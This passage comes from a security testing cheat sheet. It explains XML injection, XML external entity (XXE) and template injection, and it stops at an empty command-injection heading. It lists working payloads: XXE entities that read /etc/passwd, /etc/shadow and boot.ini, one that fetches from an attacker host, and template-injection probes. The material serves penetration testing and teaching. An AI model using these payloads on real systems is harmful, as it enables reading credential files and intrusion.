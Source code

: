 XML Injection testing is when a tester tries to inject an XML doc to the application. If the XML parser fails to contextually validate data, then the test will yield a positive result.

[OWASP - Testing for XML Injection](https://www.owasp.org/index.php/Testing_for_XML_Injection_(OTG-INPVAL-008))

**Examples**

```text
Username = foo<
Username = foo<!--
```

##### XML External Entities (XXE)

If the definition of an entity is a URI, the entity is called an external entity. Unless configured to do otherwise, external entities force the XML parser to access the resource specified by the URI, e.g., a file on the local machine or on a remote systems.

```xml
 <?xml version="1.0" encoding="ISO-8859-1"?>
 <!DOCTYPE foo [
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "file:///etc/passwd" >]><foo>&xxe;</foo>

 <?xml version="1.0" encoding="ISO-8859-1"?>
 <!DOCTYPE foo [
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "file:///etc/shadow" >]><foo>&xxe;</foo>

 <?xml version="1.0" encoding="ISO-8859-1"?>
 <!DOCTYPE foo [
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "file:///c:/boot.ini" >]><foo>&xxe;</foo>

 <?xml version="1.0" encoding="ISO-8859-1"?>
 <!DOCTYPE foo [
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "http://www.attacker.com/text.txt" >]><foo>&xxe;</foo>
```

#### Template Injection

Template injection allows an attacker to include template code into an existant (or not) template.

[Portswigger - Server Side Template Injecton](http://blog.portswigger.net/2015/08/server-side-template-injection.html)

**Examples**

```text
<%= 7 * 7 %>
{{ 7 * 7 }}
```

#### OS Command Injection
